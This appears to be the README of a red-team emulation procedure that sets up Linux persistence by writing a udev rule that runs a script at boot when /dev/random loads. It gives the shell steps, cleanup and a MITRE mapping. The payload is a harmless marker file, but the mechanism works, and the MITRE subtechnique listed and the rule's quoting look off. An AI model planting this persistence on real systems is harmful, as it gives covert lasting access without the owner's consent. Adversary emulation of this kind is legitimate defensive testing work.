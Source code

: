 # UDEV Persistence Technique

![Meta TTP](https://img.shields.io/badge/Meta_TTP-red)

This TTP utilizes a method of establishing persistence by creating a script that is automatically executed at boot time when the `/dev/random` device is loaded. It leverages udev rules to execute the script, making this an effective technique for maintaining access during system initialization.

## Arguments

- **target_path**: The path where the script and udev rule will be created.

  Default: /dev

## Requirements

1. Access to a Linux system with permissions to modify udev rules.
1. Ability to write files in critical system directories.

## Examples

You can run the TTP using the following command (adjust arguments as needed):

```bash
ttpforge run forgearmory//persistence/unix/udev-persistence/udev-persistence.yaml \
    --arg target_path="/your/custom/path"
```

## Steps

1. **create_persistence_script**: Creates a script in the specified path that will be executed upon system boot.

   ```bash
   #!/bin/bash
   echo "touch /root/exploited" > {{ .Args.target_path }}/udev.sh
   chmod 0600 {{ .Args.target_path }}/udev.sh
   ```

1. **add_udev_rule**: Adds a udev rule that triggers the script execution when the `/dev/random` device is loaded at boot time.

   ```bash
   echo 'ACTION=="add", ENV{MAJOR}=="1", ENV{MINOR}=="8", RUN+="/bin/sh -c '{{ .Args.target_path }}/udev.sh'"' > /etc/udev/rules.d/75-persistence.rules
   ```

## Cleanup

1. **remove_udev_rule**: Deletes the udev rule from the system.

   ```bash
   rm /etc/udev/rules.d/75-persistence.rules
   ```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0003 Persistence
- **Techniques**:
  - T1546 Event Triggered Execution
- **Subtechniques**:
  - T1546.004 Unix Shell Configuration Modification
